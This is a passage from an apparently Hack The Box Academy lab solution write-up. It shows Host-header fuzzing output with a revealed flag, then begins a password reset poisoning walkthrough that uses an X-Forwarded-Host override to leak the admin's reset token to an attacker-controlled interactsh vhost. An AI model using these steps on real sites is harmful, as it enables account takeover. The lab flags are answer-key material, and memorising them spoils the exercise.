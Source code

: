 ```
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 752
________________________________________________

192.168.178.82          [Status: 200, Size: 775, Words: 49, Lines: 36, Duration: 14ms]
192.168.178.132         [Status: 200, Size: 775, Words: 49, Lines: 36, Duration: 14ms]
192.168.178.219         [Status: 200, Size: 775, Words: 49, Lines: 36, Duration: 13ms]
:: Progress: [65025/65025] :: Job [1/1] :: 2440 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```

Students can use any of the three IP addresses as the value of the `Host` header (the first will be used in here), attaining the flag `HTB{2454563555ed26dd9ae4bc005393a646}`:

![[HTB Solutions/CWEE/z. images/c65f1cba02f94391e01848d2122587ae_MD5.jpg]]

Answer: `HTB{2454563555ed26dd9ae4bc005393a646}`

# Password Reset Poisoning

## Question 1

### "Try to use what you learned in this section to exploit password reset poisoning and take over the admin account to obtain the flag. The admin user's email address is admin@httpattacks.htb. NOTE: Use the local vhost interactsh.local to exfiltrate data."

After spawning the target machine, students first need to add the vHost entry `interactsh.local` to `/etc/hosts`:

Code: shell

```shell
sudo sh -c 'echo "STMIP interactsh.local" >> /etc/hosts'
```

```
┌─[us-academy-2]─[10.10.14.212]─[htb-ac413848@htb-xbcoapcfaa]─[~]
└──╼ [★]$ sudo sh -c 'echo "161.35.166.184 interactsh.local" >> /etc/hosts'
```

Subsequently, students need to visit the `/login.php` webpage of the spawned target machine web application and click on `Forgot Password?`:

![[HTB Solutions/CWEE/z. images/8804765d7ea9a1c1074541be36c42513_MD5.jpg]]

Students need to use the email address of the admin `admin@httpattacks.htb` and intercept the request with `Burp Suite`:

![[HTB Solutions/CWEE/z. images/9505ca2228851043cdfaeb99b0f141f9_MD5.jpg]]

When keeping the default `Host` header and assigning it the value `interactsh.local`, students will notice that there are no password reset tokens received from the admin in `http://interactsh.local:STMPO/log`, therefore, students need to use the `Override Header` `X-Forwarded-Host`, specifying `interactsh.local` as its value:

